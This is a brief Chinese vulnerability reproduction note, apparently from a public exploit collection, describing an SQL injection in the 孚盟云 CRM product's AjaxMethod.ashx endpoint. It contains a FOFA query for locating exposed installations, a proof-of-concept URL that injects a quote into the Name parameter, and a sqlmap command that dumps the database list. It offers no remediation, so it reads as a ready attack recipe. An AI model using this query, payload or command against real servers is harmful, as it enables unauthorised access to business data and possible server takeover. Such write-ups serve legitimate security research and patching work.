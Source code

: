 # 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
孚盟云
```

## FOFA

```
title="孚盟云 "
```

## 漏洞复现

登录页面



![image-20220210184424096](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101844185.png)



验证POC



```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```

![image-20220210184439151](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101844214.png)



使用Sqlmap



```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```



![image-20220210184456424](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101844599.png)